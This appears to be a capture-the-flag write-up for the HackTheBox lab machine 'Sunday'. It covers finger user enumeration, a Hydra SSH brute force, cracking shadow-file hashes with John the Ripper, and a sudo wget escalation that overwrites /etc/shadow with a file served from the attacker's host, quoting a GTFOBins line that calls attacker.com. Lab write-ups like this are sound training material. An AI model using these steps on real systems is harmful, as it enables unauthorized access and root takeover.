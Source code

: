 # Sunday
## HackTheBox
### Easy (retired)

IP: 10.129.234.47

#### NMAP
PORT      STATE SERVICE   REASON         VERSION
* 79/tcp    open  finger    syn-ack ttl 59 Sun Solaris fingerd
    finger: No one logged on\x0D
* 111/tcp   open  rpcbind   syn-ack ttl 63 2-4 (RPC #100000)
* 22022/tcp open  ssh       syn-ack ttl 59 SunSSH 1.3 (protocol 2.0)

* 36077/tcp open  smserverd syn-ack ttl 59 1 (RPC #100155)
* 47822/tcp open  unknown   syn-ack ttl 63

79,111,22022,36077,47822

PORT   STATE SERVICE VERSION
79/tcp open  finger  Sun Solaris fingerd
  finger: No one logged on\x0D
  Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos

#### Port 79 - Finger
* Used finger daemon to see if any users are logged in.
  * No users
* Used script [finger-user-enum v1.0](http://pentestmonkey.net/tools/finger-user-enum) to brute-force users.

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Usernames file ........... /SecLists-master/Usernames/Names/names.txt
Target count ............. 1
Username count ........... 10177
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

######## Scan started at Mon Oct 11 08:24:44 2021 #########
* access@10.129.234.95: access No Access User < .  .  .  . >..nobody4  SunOS 4.x NFS Anonym < .  .  .  . >..
* admin@10.129.234.95: Login Name TTY Idle When Where..adm Admin < .  .  .  . >..lp Line Printer Admin < .  .  .  . >..uucp uucp Admin < .  .  .  . >..nuucp uucp Admin < .  .  .  . >..dladm Datalink Admin < .  .  .  . >..listen Network Admin < .  .  .  . >..
* anne marie@10.129.234.95: Login Name TTY Idle When Where..anne ???..marie ???..
* bin@10.129.234.95: bin ??? < .  .  .  . >..
* dee dee@10.129.234.95: Login Name TTY Idle When Where..dee ???..dee ???..
* jo ann@10.129.234.95: Login Name TTY Idle When Where..jo ???..ann ???..
* la verne@10.129.234.95: Login Name TTY Idle When Where..la ???..verne ???..
* line@10.129.234.95: Login Name TTY Idle When Where..lp Line Printer Admin
* message@10.129.234.95: Login Name TTY Idle When Where..smmsp SendMail Message Sub 
* miof mela@10.129.234.95: Login Name TTY Idle When Where miof ???..mela ???..
* root@10.129.234.95: root Super-User pts/3 Apr 24, 2018
* sammy@10.129.234.95: sammy console Sep 30, 2020
* sunny@10.129.234.95: sunny pts/3 Apr 24, 2018 10.10.14.4
* sys@10.129.234.95: sys
* zsa zsa@10.129.234.95

Checked all logins with `finger` with the following results:
```Console
[10.129.234.95]
Login       Name               TTY         Idle    When    Where
nobody   NFS Anonymous Access               < .  .  .  . >
noaccess No Access User                     < .  .  .  . >
nobody4  SunOS 4.x NFS Anonym               < .  .  .  . >

Login       Name               TTY         Idle    When    Where
adm      Admin                              < .  .  .  . >
lp       Line Printer Admin                 < .  .  .  . >
uucp     uucp Admin                         < .  .  .  . >
nuucp    uucp Admin                         < .  .  .  . >
dladm    Datalink Admin                     < .  .  .  . >
listen   Network Admin                      < .  .  .  . >

Login       Name               TTY         Idle    When    Where
root     Super-User            pts/3        <Apr 24, 2018> sunday

Login       Name               TTY         Idle    When    Where
sammy    sammy                 console      <Sep 30, 2020>

Login       Name               TTY         Idle    When    Where
sunny    sunny                 pts/3        <Apr 24, 2018> 10.10.14.4
```

* Brute force ssh with Hydra
root
sammy
sunny

Password found:
```
╰─ hydra -t 32 -L hydraUsers -P /Volumes/TerraRyzing/Tools/SecLists-master/Passwords/10k\ most\ common.txt ssh://10.129.234.95:22022
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-11 12:56:47
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 32 tasks per 1 server, overall 32 tasks, 30000 login tries (l:3/p:10000), ~938 tries per task
[DATA] attacking ssh://10.129.234.95:22022/
[STATUS] 483.00 tries/min, 483 tries in 00:01h, 29582 to do in 01:02h, 32 active
[STATUS] 417.00 tries/min, 1251 tries in 00:03h, 28814 to do in 01:10h, 32 active
[STATUS] 370.71 tries/min, 2595 tries in 00:07h, 27470 to do in 01:15h, 32 active
[STATUS] 365.00 tries/min, 5475 tries in 00:15h, 24590 to do in 01:08h, 32 active
[STATUS] 357.29 tries/min, 11076 tries in 00:31h, 18989 to do in 00:54h, 32 active
[STATUS] 357.68 tries/min, 16811 tries in 00:47h, 13254 to do in 00:38h, 32 active
[22022][ssh] host: 10.129.234.95   login: sunny   password: sunday
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-11 13:57:33
```
login: sunny
password: sunday

* Attempted to connect via `ssh` but received an error:
```Console
Unable to negotiate with 10.129.234.154 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```

Visited the [OpenSSH website](https://www.openssh.com/legacy.html)
> The best resolution for these failures is to upgrade the software at the other end and/or replace the weak key types with safer modern types.
> OpenSSH only disables algorithms that we actively recommend against using because they are known to be weak. This might not be immediately
> possible in some cases, so you may need to temporarily re-enable the weak algorithms to retain access.
> 
> For the case of the above error message, OpenSSH can be configured to enable the diffie-hellman-group1-sha1 key exchange algorithm (or any
> other that is disabled by default) using the KexAlgorithms option, either on the command line:
> 
> `ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 user@legacyhost`

* Able to connect with the following:
`ssh -oKexAlgorithms=diffie-hellman-group-exchange-sha1 -p 22022 sunny@10.129.234.154`

#### Sunny
Does not have user flag. Found under user: Sammy, but lack permissions.

#### Pivot
Found a file in `/backup` called `shadow.backup` containing:
```Console
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$[redacted]::::::
sunny:$5$[redacted]::::::
sunny@sunday:/backup$ pwd
/backup
```

* NTH:
Most Likely
SHA-256 Crypt, HC: 7400 JtR: sha256crypt

* Run through JtR
```
╰─ john user_hashes --format=sha256crypt --wordlist=/Volumes/TerraRyzing/Tools/SecLists-master/Passwords/Leaked-Databases/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha256crypt, crypt(3) $5$ [SHA256 128/128 SSE4.1 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
sunday           (?)
cooldude!        (?)
2g 0:00:02:50 DONE (2021-10-11 15:09) 0.01170g/s 1191p/s 1205c/s 1205C/s coolll..cocoa16
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

* switched user to `sammy` and reached the user flag.
User flag: ********************************

#### Privesc
```Console
sunny@sunday:/export/home/sammy/Desktop$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```

* Per [GTFOBins](https://gtfobins.github.io/gtfobins/wget/#sudo)
> If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
> 
>     Fetch a remote file via HTTP GET request.
> ```
>     URL=http://attacker.com/file_to_get
>     LFILE=file_to_save
>     sudo wget $URL -O $LFILE
> ```


* Hypothesis: edit the backup file and write it to the /etc/shadow file with existing hash

1. Copy contents found in sunny's backup file into a file on attack machine called `shadow`
2. Create an entry for `root` using sammy or sunny's hash
3. From target: `sudo wget -O /etc/shadow http://ip-address/shadow`
4. Since `wget` has `sudo` privileges, it will allow the existing `/etc/shadow` file to be overwritten as the outfile provided to `wget`
5. Executed `su`:

sunny@sunday:/backup$ su
Password:
sunny@sunday:/backup# whoami
root

Root flag: ********************************
